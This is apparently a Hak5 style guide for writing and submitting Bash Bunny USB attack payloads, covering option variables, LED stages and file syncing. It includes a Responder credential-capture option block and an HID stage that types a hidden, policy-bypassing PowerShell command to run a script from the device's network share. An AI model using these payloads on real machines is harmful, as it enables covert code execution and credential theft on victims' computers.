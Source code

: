 * Configurable options should be specified in variables at the top of the payload.txt file
~~~~
# Options
RESPONDER_OPTIONS="-w -r -d -P"
LOOTDIR=/root/udisk/loot/quickcreds
~~~~

* LED should use common payload states rather than unique color/pattern combinations when possible.
* The LED command should preceed the ATTACKMODE command for various stages
* Stages should be documented with comments
~~~
######## HID STAGE ########
# Runs hidden powershell which executes \\172.16.64.1\s\s.ps1 when available
GET HOST_IP
LED STAGE1
ATTACKMODE HID
RUN WIN "powershell -WindowStyle Hidden -Exec Bypass \"while (\$true) { If (Test-Connection $HOST_IP -count 1) { \\\\$HOST_IP\\s\\s.ps1; exit } }\""
~~~

* Common payload states include a **SETUP**, with may include a **FAIL** if certain conditions are not met. 
* This is typically followed by either a single **ATTACK** or multiple **STAGE**s.
* More complex payloads may include a **SPECIAL** function to wait until certain conditions are met.
* Payloads commonly end with a **CLEANUP** phase, such as moving and deleting files or stopping services.
* When the payload has **FINISH**ed, the Bash Bunny is safe to eject.
* These common payload states correspond to LED states.


## Working with the file system

The Bash Bunny contains a USB Mass Storage parition (also known as udisk) which is typically accessed via Arming Mode. This is the Bash Bunny flash drive to which payloads are copied.

When the Bash Bunny framework executes a payload, it will synchronize the USB Mass Storage partition file system once the payload completes. This can be either by an exit statement in the payload.txt, or when the Bunny Script reaches the end of file.

Keep this in mind as a payload which writes files to the USB Mass Storage partition within a loop will not have the opportunity to synchronize until the payload completes. This is why ending payloads with an LED FINISH command is advised. In this case, the payload developer is advised to use the sync command to ensure file synchronization is completed.

## Submitting Payloads

Payloads may be submitted to the [Bash Bunny Payload git repository](https://github.com/hak5/bashbunny-payloads "Bash Bunny Payload git repository"). For a video tutorial on submitting payloads, see [Hak5 episode 2126](https://www.hak5.org/episodes/season-21/hak5-2126-how-to-write-bash-bunny-payloads-contribute-on-github).

